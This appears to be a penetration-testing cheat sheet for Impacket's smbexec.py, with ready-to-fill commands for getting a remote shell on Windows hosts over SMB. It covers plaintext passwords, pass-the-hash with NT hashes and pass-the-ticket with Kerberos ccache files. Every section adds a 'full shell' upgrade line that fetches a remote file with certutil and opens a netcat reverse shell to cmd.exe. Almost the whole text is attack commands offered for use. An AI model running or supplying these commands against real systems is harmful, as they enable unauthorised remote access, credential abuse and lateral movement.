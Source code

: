# smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
upgrade full shell :
    certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
smbexec.py -shell-type powershell -hashes :<nt_hash> <domain>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>; nc.exe <ip> <port> -e cmd.exe
```
export KRB5CCNAME=<ccache>; smbexec.py -shell-type powershell -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <target_name>
```
